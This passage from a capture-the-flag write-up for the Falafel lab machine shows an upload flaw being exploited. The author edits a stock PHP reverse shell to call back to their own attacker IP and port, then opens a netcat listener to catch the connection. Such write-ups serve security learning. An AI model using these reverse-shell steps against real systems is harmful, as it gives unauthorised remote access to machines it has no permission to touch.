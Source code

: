Cool so that is using a tool we should recognize, wget. It also echoes out the folder it saves the image to. A simple browse to ```http://10.10.10.73/uploads/0621-1924_63b0bd5de1c81bcd/viking.png``` should then present us with the image.  

![viking.png--PNG-Image--141---141-pixels----Mozilla-Firefox_065](assets/images/posts/2018/06/falafel-writeup/viking.png--PNG-Image--141---141-pixels----Mozilla-Firefox_065.png)  

So it gives us both the folder name where it is saved and also we have access to it... Since it is running a php backend, lets try and upload a reverse shell.

```
root@kali:~/Falafel$ cp /usr/share/webshells/php/php-reverse-shell.php ./sb.php
root@kali:~/Falafel$ sed -i -e 's/127.0.0.1/10.10.14.7/g' sb.php
root@kali:~/Falafel$ sed -i -e 's/$port = 1234;/$port = 4000;/g' sb.php
```

Having set the ip and port of my kali box, we should also put up something to catch the shell with netcat.

```
root@kali:~/Falafel$ nc -lvvp 4000
listening on [any] 4000 ...
```


[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)